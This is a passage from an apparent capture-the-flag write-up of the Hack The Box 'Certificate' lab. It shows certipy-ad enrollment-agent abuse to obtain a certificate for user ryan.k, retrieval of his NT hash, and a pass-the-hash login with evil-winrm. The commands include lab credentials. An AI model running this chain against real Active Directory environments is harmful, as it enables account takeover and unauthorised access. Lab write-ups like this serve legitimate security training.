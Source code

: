 **Step 2: Use the Enrollment Agent certificate to request a certificate on behalf of the target user.**
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

**Step 3: Authenticate using the "on-behalf-of" certificate.**
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6

```

Then we can get the shell as `ryan.k`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Certificate]
└─$ evil-winrm -i 10.10.11.71 -u ryan.k -H 'b1bc3d70e70f4f36b1509a65ae1a2ae6' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
```
